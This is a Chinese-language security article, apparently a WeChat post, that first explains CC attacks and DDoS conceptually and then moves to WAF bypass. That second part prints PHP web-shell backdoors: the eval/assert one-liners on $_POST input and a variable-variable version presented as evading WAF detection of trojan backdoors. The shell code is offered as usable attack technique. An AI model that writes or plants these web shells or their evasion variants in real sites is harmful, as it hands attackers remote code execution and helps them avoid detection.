 ***\*CC 攻击与 DDOS\**** 

CC 攻击就是 DDOS 攻击的一种攻击类型。CC 攻击是它的一种攻击方式。 



CC 攻击模拟多个用户(多少线程就是多少用户)不停地进行访问(访问那些需要大 量数据操作，就是需要大量 CPU 时间的页面).这一点用一个一般的性能测试软件 就可以做到大量模拟用户并发。CC 攻击的原理就是攻击者控制某些主机不停地 发大量数据包给对方服务器造成服务器资源耗尽，一直到宕机崩溃。 



dos 攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一 个或多个目标发动攻击，从而成倍地提高拒绝服务攻击的威力。ddos 的攻击方 式有很多种，最基本的 dos 攻击就是利用合理的服务请求来占用过多的服务资 源，从而使合法用户无法得到服务的响应。



ddos 攻击和 cc 攻击区别主要是针对对象的不同。是主要针对 IP 的攻击，而 CC 攻击的主要是网页。CC 攻击相对来说，攻击的危害不是毁灭性的，但是持续时 间长;而 ddos 攻击就是流量攻击，这种攻击的危害性较大，通过向目标服务器发 送大量数据包，耗尽其带宽，更难防御。



WAF 绕过-权限控制之代码混淆及行为造轮 子

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ1WA9fEZnia65KL8W3Jf7oUbibGicGiag4wkGYayeErH4iaY1V8AAao6v9Cg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**后门绕过** 

**①简单后门-无法绕过** 

**WAF** **PHP** **脚本为例****:** 

**<?php @eval($_POST['x']);** **?>** 

**<?php assert($_POST['x']);** **?>**

**
**

***\*简单后门只是用于简单的学习\**\**,\**\**而在真实环境中，该后门语句会\**\**被直\** \**接\** \**WAF\** \**所检测到\**\**，此时就需要我们进行简单的变换。\**\**注意：一般情况下多数用\** \**assert\** \**函数因为\** \**assert\** \**能写入变量执行，而\** \**eval\** \**却不行\****

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQddFkZX4Vn3gYUIRc3xEVja1TuXcz31DSh2MJI8nmia5r5EBULdSbeLg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**②变量覆盖** **思路：** 

**WAF** **检测不到****可变的变量****时，就会放行也就是无法检测到** **木马后门文件** 



**后门语句** 

**<?php**

  **$a = $_GET['x'];** 

  **$$a = $_GET['y'];** 

  **$b($_POST['z']);** 

**?>**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQOEPzWv5WOW7dLuia6tV5NmAd7PGVxal7Yv2AvVic0EhnUoU0CB9kia0DQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
